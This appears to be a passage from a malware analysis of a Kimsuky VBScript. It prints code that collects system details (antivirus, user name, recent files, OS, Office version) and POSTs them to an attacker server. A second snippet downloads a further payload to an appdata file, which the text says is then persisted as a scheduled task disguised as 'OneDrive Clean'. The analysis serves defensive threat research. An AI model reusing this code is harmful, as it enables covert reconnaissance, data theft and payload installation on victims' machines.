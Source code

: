 



ProgramFilesFolder = objShell.ExpandEnvironmentStrings("%ProgramFiles%")
ProgramFilesx86Folder = objShell.ExpandEnvironmentStrings("%ProgramFiles(x86)%")
drl = server_url + "/info.php?ki87ujhy=" + ProgramFilesx86Folder + "&rdxvdw=" + ProgramFilesFolder
..[redacted]..
Post = "v=" + AntiVirusName + "&r=" + recentlist + "&un=" + UserName + "&os=" + os + "&sv=" + Version + "&msv=" + GetOfficeVersionNumber + "&dnv=" + dnv + "&dll=" + desktop_lnk + "&tll=" + taskbar_lnk

Dim WinHttpReq
Set WinHttpReq = CreateObject("MSXML2.ServerXMLHTTP.6.0")
WinHttpReq.Open "POST", drl, False
WinHttpReq.setRequestHeader "User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chnome/97.0.4692.99 Safari/537.36"
WinHttpReq.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
WinHttpReq.setRequestHeader "Content-Length", Len(Post)
WinHttpReq.Send Post




12345678910111213

ProgramFilesFolder = objShell.ExpandEnvironmentStrings("%ProgramFiles%")ProgramFilesx86Folder = objShell.ExpandEnvironmentStrings("%ProgramFiles(x86)%")drl = server_url + "/info.php?ki87ujhy=" + ProgramFilesx86Folder + "&rdxvdw=" + ProgramFilesFolder..[redacted]..Post = "v=" + AntiVirusName + "&r=" + recentlist + "&un=" + UserName + "&os=" + os + "&sv=" + Version + "&msv=" + GetOfficeVersionNumber + "&dnv=" + dnv + "&dll=" + desktop_lnk + "&tll=" + taskbar_lnk Dim WinHttpReqSet WinHttpReq = CreateObject("MSXML2.ServerXMLHTTP.6.0")WinHttpReq.Open "POST", drl, FalseWinHttpReq.setRequestHeader "User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chnome/97.0.4692.99 Safari/537.36"WinHttpReq.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"WinHttpReq.setRequestHeader "Content-Length", Len(Post)WinHttpReq.Send Post




Apart from the reporting capability, the fetched script downloads an additional payload and registers it with a persistence mechanism. This code is also heavily used in other Kimsuky scripts and fetches the payload through s.php, saving it to the defs.ini file, registering the file as a Windows schedule, with the name “OneDrive Clean” in this case.





Set shell_obj = CreateObject("WScript.Shell")
ini_file = shell_obj.expandenvironmentstrings("%appdata%") & "\defs.ini"
drl = server_url + "/s.php"
Set WinHttpReq= CreateObject("MSXML2.ServerXMLHTTP.6.0")
WinHttpReq.Open "GET", drl,False
WinHttpReq.setRequestHeader "User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chnome/97.0.4692.99 Safari/537.36"
WinHttpReq.send
If WinHttpReq.Status=200 Then
Set oFile = CreateObject("Scripting.FileSystemObject")
Set ofp = oFile.CreateTextFile(ini_file, 2)
ofp.Write kjhskfjaskdjf(res)
ofp.Close
End If
